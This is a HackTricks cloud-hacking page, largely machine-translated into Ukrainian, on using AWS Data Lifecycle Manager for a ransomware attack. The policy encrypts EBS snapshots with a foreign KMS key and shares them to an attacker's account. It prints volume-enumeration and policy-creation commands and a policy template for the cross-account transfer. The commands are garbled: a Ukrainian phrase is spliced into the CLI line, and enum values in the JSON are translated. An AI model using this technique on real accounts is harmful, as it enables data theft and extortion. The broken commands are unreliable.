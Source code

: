 # AWS - Менеджер життєвого циклу даних

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа хакінгу HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа хакінгу HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Менеджер життєвого циклу даних (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Атака вірусом-вимагачем може бути виконана шляхом шифрування якомога більшої кількості EBS-томів, а потім видалення поточних екземплярів EC2, EBS-томів та знімків. Для автоматизації цієї зловмисної діяльності можна використовувати Amazon DLM, шифруючи знімки за допомогою ключа KMS з іншого облікового запису AWS та передавати зашифровані знімки на інший обліковий запис. Або можна передавати знімки без шифрування на обліковий запис, яким ви керуєте, а потім шифрувати їх там. Хоча не так просто шифрувати існуючі EBS-томи або знімки безпосередньо, це можливо зробити, створивши новий том або знімок.

Спочатку ви використаєте команду для збору інформації про томи, таку як ідентифікатор екземпляра, ідентифікатор тому, статус шифрування, статус прикріплення та тип тому.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```plaintext
Створення політики життєвого циклу з aws dlm --description "Моя перша політика" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "ЩоденніЗнімки",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "СтворювачЗнімка",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "ЦентрВитрат",
"Value": "Фінанси"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "ГОДИНИ",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "ГОДИНИ"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "ДНІ"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "ДНІ"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

